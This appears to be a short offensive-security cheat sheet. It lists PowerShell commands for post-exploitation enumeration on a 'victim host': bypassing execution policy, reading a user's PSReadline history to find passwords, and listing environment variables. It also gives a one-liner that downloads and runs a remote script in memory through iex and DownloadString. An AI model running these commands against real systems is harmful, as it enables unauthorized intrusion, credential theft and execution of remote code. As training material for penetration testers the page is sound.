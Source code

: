 <figure><img src="../../.gitbook/assets/Screenshot 2023-09-21 132302.png" alt=""><figcaption></figcaption></figure>



## PowerShell Commands

| **Cmd-Let**                                                                                                                | **Description**                                                                                                                                                                                                                               |
| -------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-Module`                                                                                                               | Lists available modules loaded for use.                                                                                                                                                                                                       |
| `Get-ExecutionPolicy -List`                                                                                                | Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about\_execution\_policies?view=powershell-7.2) settings for each scope on a host.                                       |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                                                | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`          | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                       |
| `Get-ChildItem Env: \| ft Key,Value`                                                                                       | Return environment values such as key paths, users, computer information, etc.                                                                                                                                                                |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` | This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                        |


